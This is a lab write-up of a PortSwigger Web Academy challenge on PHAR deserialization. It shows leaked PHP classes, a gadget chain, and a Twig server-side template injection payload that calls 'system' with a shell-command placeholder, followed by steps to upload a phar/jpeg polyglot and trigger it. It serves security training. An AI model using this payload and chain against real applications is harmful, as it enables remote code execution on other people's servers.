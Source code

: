 ```yaml
---
title: PortSwigger Web Academy
description: Write-up of PortSwigger Web Academy challenges.
ignore_macros: true
---
```


# PortSwigger Web Academy

## Insecure deserialization

### PHAR deserialization & custom gadget chain

> Lab : [Using PHAR deserialization to deploy a custom gadget chain](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-phar-deserialization-to-deploy-a-custom-gadget-chain)

**1.** Source code leaks via directory listing and backup file :

- /cgi-bin/CustomTemplate.php~
- /cgi-bin/Blog.php~

```php
class Blog {
    // ...

    public function __toString() {
        return $this->twig->render('index', ['user' => $this->user]);
    }

    public function __wakeup() {
        $loader = new Twig_Loader_Array([
            'index' => $this->desc,
        ]);
        $this->twig = new Twig_Environment($loader);
    }
}

class CustomTemplate {
    // ...

    function __destruct() {
        // Carlos thought this would be a good idea
        @unlink($this->lockFilePath());
    }

    private function lockFilePath()
    {
        return 'templates/' . $this->template_file_path . '.lock';
    }
}
```

- *Blog* `__wakeup()` - setup SSTI payload
- *CustomTemplate* `__destruct()` -> `lockFilePath()` -> *Blog* `__toString()` - run SSTI payload

**2.** Create an unserialize payload to trigger the Twig SSTI

```php
$blog = new Blog('toto',
    '{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("<SEHLL_COMMAND>")}}');
$object = new CustomTemplate($blog);
```

**3.** Create a polyglot phar/jpeg file thanks to [xanhacks/phar-jpg-polyglot](https://gitlab.com/xanhacks/phar-jpg-polyglot/).

**4.** Upload malicious phar as avatar picture.

**5.** Load/execute it by visiting `/cgi-bin/avatar.php?avatar=phar://wiener`